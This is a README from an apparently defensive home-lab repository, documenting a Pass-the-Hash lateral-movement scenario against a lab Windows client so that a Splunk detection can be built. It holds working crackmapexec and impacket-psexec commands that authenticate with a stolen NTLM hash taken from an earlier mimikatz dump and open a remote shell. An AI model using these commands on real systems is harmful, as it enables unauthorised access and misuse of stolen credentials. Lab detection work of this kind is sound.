




# 06 — Pass-the-Hash Lateral Movement

## Overview

| Field             | Detail                                                                                                             |
| ----------------- | ------------------------------------------------------------------------------------------------------------------ |
| Status            | ✅ Completed                                                                                                        |
| Date              | 15 June 2026                                                                                                       |
| Tier              | Intermediate                                                                                                       |
| Attacker workflow | From Kali, authenticate to a Windows host using a stolen NTLM hash                                                 |
| Target            | win-client (10.0.10.20) — receives the network logon                                                               |
| MITRE Tactic      | Lateral Movement                                                                                                   |
| MITRE Technique   | [T1550.002 — Use Alternate Authentication Material: Pass the Hash](https://attack.mitre.org/techniques/T1550/002/) |
| Tool              | crackmapexec                                                                                                       |
| Log Source        | Windows Security Event 4624 (Logon Type 3, NTLM)                                                                   |
| Detection         | [detection/06-pass-the-hash.md](../../detection/06-pass-the-hash.md)                                               |

> **Prerequisite:** You need a local Administrator NTLM hash. Get it from [scenario 05 (mimikatz)](../05-credential-dumping/README.md) output — the `NTLM` value under `sekurlsa::logonpasswords`. Replace `<NTLM_HASH>` below with it.

---

## Attack Steps

Run from **Kali**. The hash authenticates without the plaintext password:

```bash
#install crackmapexec
sudo apt install crackmapexec

# Validate the hash works against win-client
crackmapexec smb 10.0.10.20 -u Administrator -H <NTLM_HASH>

#install impacket
sudo apt install impacket-scripts

# Execute commands remotely via Pass-the-Hash
impacket-psexec -hashes :<NTLM_HASH> Administrator@10.0.10.20
```

The target (win-client) records a Type 3 network logon authenticated with NTLM — the Pass-the-Hash signature.

---

## Detection (summary)

Full SPL, alert settings, and notes: [detection file](../../detection/06-pass-the-hash.md).

---

## Findings

> *(Fill in after completing)*

| Field                        | Result                                                      |
| ---------------------------- | ----------------------------------------------------------- |
| Date                         | 16 June 2026                                                |
| Command used                 | crackmapexec smb 10.0.10.20 -u Administrator -H <NTLM_HASH> |
| Event 4624 LT3 NTLM captured | Yes                                                         |
| Source host                  | 10.0.10.3                                                   |
| Alert triggered              | Yes                                                         |

---

## Screenshots

 
 
 


---

## Cleanup

```bash
./scripts/recovery/restore.sh win-client
```
